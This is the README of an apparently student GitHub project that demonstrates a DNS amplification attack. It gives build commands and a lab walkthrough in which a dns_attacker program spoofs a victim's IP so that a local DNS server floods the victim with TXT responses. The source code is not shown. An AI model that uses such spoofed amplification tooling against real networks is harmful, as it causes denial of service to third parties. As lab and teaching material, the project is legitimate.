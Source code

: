 ########################
DNS Amplification Attack
########################

* Contents:

  + 1 `DNS Amplification Attack`_

    + 1.1 `About The Project`_
    + 1.2 `Getting Started`_
    + 1.3 Screenshots_
    + 1.4 License_
    + 1.5 Contact_
    + 1.6 Acknowledgments_

About The Project
=================

This repository is a simple experiment of DNS-Amplification-Attack_.

How it started
  This is my graduation project

How it's going
  This project now is not as good as I expected, especially the dns server, which now can only send 512-byte useless response packet. I'd like to make it a valid dns response.

Getting Started
===============

To quickly get started, you should set up a local network, at least one **attacker**, one **dns server** and a **victim**. Of course they can be in the same host.

After that, let's begin building the executable files:

.. code-block:: bash

   root@build:~# git clone https://github.com/GoldenMean58/dns_amplification_attack
   root@build:~# cd dns_amplification_attack
   root@build:~/dns_amplification_attack# ./configure && make

And you will have **dns_attacker** and **dns_server** in the *src* directory. They do what as their names show.

Let's pretend the IP configure as below::

  Network Gateway: 192.168.1.1
  DNS Server: 192.168.1.1
  Attacker: 192.168.1.2
  Victim: 192.168.1.3

Now, we can put our hands to attack. First we start our DNS server:

.. code-block:: bash

   root@dns-server:~# ./dns_server
   DNS server bind address: 0.0.0.0    
   DNS server bind port:53

As you can see, we bind the dns_server to 0.0.0.0:53 for external access, which need privilege.

Then we start our attacker:

.. code-block:: bash

   root@attacker:~# ./dns_attacker
   Target ip address: 192.168.1.3
   DNS server ip address: 192.168.1.1
   DNS server port: 53
   Query domain name(Ctrl+D to end): www.baidu.com
   Query type(A = 1, NS = 2, CNAME = 5, MX = 15, TXT = 16 , AAAA = 28): 16
   Query domain name(Ctrl+D to end):<Ctrl+D>

We asked the dns server(192.168.1.1:53) for *www.baidu.com*'s TXT record and spoof the query packet's source ip to **Target ip address** (192.168.1.3). After we enter <Ctrl+D>, the target victim was under attack. You can monitor network flow(UDP) on the dns server, attacker and victim.

Screenshots
===========

Linux attack:
  .. image:: https://www.helloimg.com/images/2021/03/19/BQLjpK.png

Windows victim:
  .. image:: https://www.helloimg.com/images/2021/03/19/BQAXHv.png

License
=======

Distributed under the MIT License. See `LICENSE`_ for more information.

Contact
=======

GoldenMean_ - GoldenMean58@outlook.com

Acknowledgments
===============

`Cloudflare article`_

`User Datagram Protocol(UDP) WIKIPEDIA article`_

`IPv4 WIKIPEDIA article`_

`Domain Name System WIKIPEDIA article`_

.. _DNS-Amplification-Attack: https://www.cloudflare.com/learning/ddos/dns-amplification-ddos-attack/
.. _LICENCE: https://github.com/GoldenMean58/dns_amplification_attack/blob/master/LICENSE
.. _GoldenMean: https://github.com/GoldenMean58
.. _Cloudflare article: https://www.cloudflare.com/learning/ddos/dns-amplification-ddos-attack/
.. _User Datagram Protocol(UDP) WIKIPEDIA article: https://en.wikipedia.org/wiki/User_Datagram_Protocol
.. _IPv4 WIKIPEDIA article: https://en.wikipedia.org/wiki/IPv4#Packet_structure
.. _Domain Name System WIKIPEDIA article: https://en.wikipedia.org/wiki/Domain_Name_System
